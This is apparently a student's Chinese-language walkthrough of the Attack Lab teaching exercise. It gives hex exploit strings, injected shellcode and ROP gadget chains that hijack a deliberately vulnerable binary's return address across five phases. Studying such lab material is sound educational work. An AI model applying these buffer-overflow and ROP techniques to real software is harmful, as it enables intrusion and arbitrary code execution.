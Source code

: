 ## Phase1
phase1很简单，关键就是**用touch1的地址覆盖掉原来的返回地址**
直接用objdump反汇编一下

![attacklab](/assets/imgs/attacklab/attacklab-1.png)

不难注意到在getbuf中的第一行就在栈帧上分配了18个bytes的空间，那么我们只需要首先给出18个bytes的垃圾值，再在后面跟上touch1的地址覆盖掉原来的返回地址，程序就会在ret时跳转到touch1
于是，我们就得到了Phase1的解

```
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
10 17 40 00 00 00 00 00 //touch1
```

运行结果如下

![attacklab](/assets/imgs/attacklab/attacklab-2.png)

## Phase2
和Phase1的不同在于Phase2需要传递参数，即**把我的cookie传递到rdi寄存器中**
所以需要想办法让程序执行下面的汇编代码

```asm
movq $0x45730404,%rdi
pushq $0x40173c
ret
```

其中0x40173c是touch2的地址

使用gcc编译再用objdump反汇编，会得到

```asm
0000000000000000 <.text>:
   0:	48 c7 c7 04 04 73 45 	mov    $0x45730404,%rdi
   7:	68 3c 17 40 00       	push   $0x40173c
   c:	c3                   	ret
```

这样就得到了想要执行的代码，只需要想办法让程序能够执行这些代码就可以了
尝试把这段代码当做输入，那么只需要获取这段代码的地址即可
于是，我们使用gdb，在getbuf上打上断点，即可得到此时的栈顶地址，也就是这段代码的地址：0x55657f98

![attacklab](/assets/imgs/attacklab/attacklab-3.png)

于是尝试以下的输入：

```
48 c7 c7 04 04 73 45 68
3c 17 40 00 c3 00 00 00
00 00 00 00 00 00 00 00
98 7f 65 55 00 00 00 00
```

会发现非常顺利

![attacklab](/assets/imgs/attacklab/attacklab-4.png)

## Phase3
不难发现Phase3和Phase2的差别并不是很大， 只不过想要传递的值变为了字符串(我的cookie)的地址而已，但我的cookie在原程序中并不存在，所以只能通过我的输入存储在栈上。

我的cookie是0x45730404，转换为ascii码是34 35 37 33 30 34 30 34，文档中说

> The string should consist of the eight hexadecimal digits (ordered from most to least significant) without a leading “0x.”

于是我的第一个解答诞生了

```
34 35 37 33 30 34 30 34
48 c7 c7 98 7f 65 55 68
4d 18 40 00 c3 00 00 00
a0 7f 65 55 00 00 00 00
```

我的想法就是把需要的字符串首先输入，存储在getbuf的栈帧上，然后就可执行如下指令

```asm
movq $0x55657f98,%rdi 
pushq $0x40184d
ret
```

这其中，0x55657f98是getbuf的栈顶的位置，此时这里存储着需要的字符串，0x40184d是touch3的地址。由于0x55657f98上并不是想要执行的代码，所以在输入中，把返回地址覆盖为0x55657fa0。
出乎我的意料的是竟然没有成功，仔细看文档，发现在Advice中还有这种东西：

>When functions hexmatch and strncmp are called, they push data onto the stack, overwriting portions of memory that held the buffer used by getbuf. As a result, you will need to be careful where you place the string representation of your cookie.

所以我的字符串并不能放在getbuf的栈帧中....
注意到getbuf是由test调用，二者的关系如下：

```C
unsigned getbuf()
{
	char buf[BUFFER_SIZE];
	Gets(buf);
	return 1;
}

void test()
{
	int val;
	val = getbuf();
	printf("...");
}
```

所以接下来尝试把字符串放在test的栈帧中
于是有了第二个答案：

```
48 c7 c7 b8 7f 65 55 68
4d 18 40 00 c3 00 00 00
00 00 00 00 00 00 00 00
98 7f 65 55 00 00 00 00
34 35 37 33 30 34 30 34
```

与第一个答案不同的是，在我想要执行的指令中，字符串的地址变为了0x55657fb8。这是因为此时字符串在test的栈帧中，我们获取test的栈顶地址

![attacklab](/assets/imgs/attacklab/attacklab-5.png)

就是字符串的地址
于是Phase3就被我们解决了

![attacklab](/assets/imgs/attacklab/attacklab-6.png)

## Phase4
从Phase4开始就进入了ROP阶段，由于栈的随机化等等保护措施，我们并不能像前三个Phase那样
直接注入代码，而是调用程序中本就存在的代码，也就是gadget
Phase4仍然是解决touch2，需要输入我们的cookie
首先我们需要想办法把我们的cookie传递到程序中，由于栈的位置不确定，不能直接使用立即数了，只能想办法把cookie传递给rdi寄存器
我们只需要把我的cookie放到栈顶，然后执行如下指令

```asm
popq %rdi
ret
```

然而我们翻遍`farm`也只能找到`popq %rax`对应的字节码，于是只能这样

```asm
popq %rax  //58
movq %rax,%rdi //48 89 c7
```

![attacklab](/assets/imgs/attacklab/attacklab-7.png)
![attacklab](/assets/imgs/attacklab/attacklab-8.png)

二者可以在如上的位置找到，于是我们就得到了解

```
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
ec 18 40 00 00 00 00 00
04 04 73 45 00 00 00 00
12 19 40 00 00 00 00 00
3c 17 40 00 00 00 00 00 //touch2
```

![attacklab](/assets/imgs/attacklab/attacklab-9.png)

尝试运行，发现成功解决

## Phase5
这最后一个Phase同样是通过ROP的方式让程序执行touch3，同样的，需要想办法把我的cookie字符串放在栈上，并想办法把它的地址传递给rdi寄存器
同样由于栈的地址不确定，不能直接解决
注意到`farm.c`中有这样一个函数

```c
/* Add two arguments */
long add_xy(long x, long y)
{
    return x+y;
}
```

其对应的汇编是这样

```asm
0000000000401923 <add_xy>:
  401923: 48 8d 04 37           lea    (%rdi,%rsi,1),%rax
  401927: c3                    ret
```

或许我们可以想办法获取rsp的值和cookie字符串在栈上的偏移量，然后利用这个函数来得到字符串的绝对地址
首先想办法获取rsp的值，在`farm.c`的汇编文件中搜索一下，发现只能执行`movq %rsp,%rax`

![attacklab](/assets/imgs/attacklab/attacklab-10.png)

这里的`48 89 e0`即是`movq %rsp,%rax`
接下来我们想执行`movq %rax,%rdi`或者`movq %rax,%rsi`，一搜索，还真有！

![attacklab](/assets/imgs/attacklab/attacklab-11.png)

然而只有`48 89 c7`，也就是`movq %rax,%rdi`
那么我们只能想办法把偏移量传给rsi了，我们这时候显然并不知道偏移量，但我们知道如何把偏移量传递给寄存器，也就是使用popq指令，然而同样的，我们只能找到`popq %rax`对应的字节码，接下来的任务就是想办法把rax的值传给rsi了
经过一系列的尝试(这里就不写了)，我们最后发现只有这么一套操作是可行的：

```asm
movl %eax,%ecx
movl %ecx,%edx
movl %edx,%esi
```

于是我们可以暂时的得到我们的答案了

```
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
3f 19 40 00 00 00 00 00 //movq %rsp,%rax
12 19 40 00 00 00 00 00 //movq %rax,%rdi
ec 18 40 00 00 00 00 00 //popq %rax
XX 00 00 00 00 00 00 00 //偏移量
af 19 40 00 00 00 00 00 //movl %eax,%ecx
73 19 40 00 00 00 00 00 //movl %ecx,%edx
8e 19 40 00 00 00 00 00 //movl %edx,%esi
23 19 40 00 00 00 00 00 //lea (%rdi,%rsi,1),%rax
12 19 40 00 00 00 00 00 //movq %rax,%rdi 再把字符串的地址传递给rdi
4d 18 40 00 00 00 00 00 //touch3
34 35 37 33 30 34 30 34 //Cookie字符串
```

有了这些，也不难确定偏移量XX为0x48了，尝试运行

![attacklab](/assets/imgs/attacklab/attacklab-12.png)

到此，全部解决！

